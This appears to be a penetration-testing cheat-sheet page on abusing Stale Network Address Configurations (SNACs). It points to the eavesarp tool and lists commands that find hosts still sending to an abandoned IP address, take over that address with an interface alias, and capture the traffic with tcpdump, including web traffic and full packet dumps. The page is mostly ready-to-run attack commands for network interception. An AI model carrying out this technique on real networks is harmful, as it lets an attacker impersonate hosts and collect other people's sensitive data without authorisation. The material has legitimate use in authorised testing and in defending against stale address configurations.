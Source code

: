 ```yaml
---
description: Stale Network Address Configuration
---
```


# SNACs Abuse

* [https://www.blackhillsinfosec.com/analyzing-arp-to-discover-exploit-stale-network-address-configurations/](https://www.blackhillsinfosec.com/analyzing-arp-to-discover-exploit-stale-network-address-configurations/)
* [https://github.com/arch4ngel/eavesarp](https://github.com/arch4ngel/eavesarp)

Actively analyze ARP traffic and hunt for SNACs (Stale Network Address Configurations):

```
$ sudo python3 eavesarp.py capture -i eth0 -ar -dr [--blacklist 192.168.1.11]
```

If a SNAC if found (can be detected, for example, when a host has moved from one IP to another and its DNS A record not matching its DNS PTR record anymore) so that some application in the network is still trying to send sensitive data to the *stale* IP address (because it may simply be hard-coded in the app), an adversary can set an alias for their interface pretending to be that host with the *stale* IP and collect all the traffic intended for it:

```
# Check again with tcpdump
$ sudo tcpdump -nvv -i eth0 "src host <STALE_IP> and arp"

# Abuse it!
$ sudo tcpdump -nA -i eth0 "src host <STALE_IP> and (dst port 80 or dst port 443)"
Or
$ sudo tcpdump -nvv -i eth0 -s 65535 -w eavesarp.pcap "host <STALE_IP>"
$ sudo ip addr add <STALE_IP>/24 dev eth0

# Clean up
$ sudo ip addr del <STALE_IP>/24 dev eth0
```
